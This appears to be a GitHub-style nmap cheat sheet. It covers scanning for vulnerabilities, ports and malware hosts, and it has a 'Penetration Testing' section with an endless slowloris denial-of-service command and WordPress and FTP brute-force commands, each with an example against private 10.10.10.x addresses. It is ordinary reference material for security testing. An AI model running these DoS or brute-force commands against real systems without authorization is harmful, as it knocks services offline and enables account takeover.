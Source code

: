 - ### CVE Scanning
nmap -Pn --script vuln [IP Target]
###### Example :
```
nmap -Pn --script vuln 10.10.10.11
```

- ### Aggressively all port Scanning
nmap -sC -sV -p- -T4 --min-rate=9326 -vv [IP Target]
###### Example :
```
nmap -n -sC -sV -p- -T4 --min-rate=9326 -vv -n 10.10.10.11
```

- ### Malware Infection Scanning
nmap -sV --script=http-malware-host [IP Target]
###### Example :
```
nmap -sV --script=http-malware-host 10.10.10.11
```

- ### Vulnerability Scanning
nmap --script vuln -p [Port] [IP Target] 
###### Example :
```
nmap --script vuln -p 22,80 10.10.10.11
```


### 𝚰𝚰. Penetration Testing
- ### DOS 
nmap [IP Target] -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true
###### Example :
```
nmap 10.10.10.1 -max-parallelism 800 -Pn --script http-slowloris,dos --script-args http-slowloris.runforever=true
```

- ### Wordpress Bruteforce
nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true' [IP Target]
###### Example :
```
nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true' 10.10.10.11
```

- ### Ftp Bruteforce
nmap --script ftp-brute -p  --script-args userdb=users.txt,passdb=passwords.txt 21 [IP Target]
###### Example :
```
nmap --script ftp-brute -p 21 --script-args userdb=[username-wordlist.txt],passdb=[passwords-wordlist.txt] 10.10.10.1
```
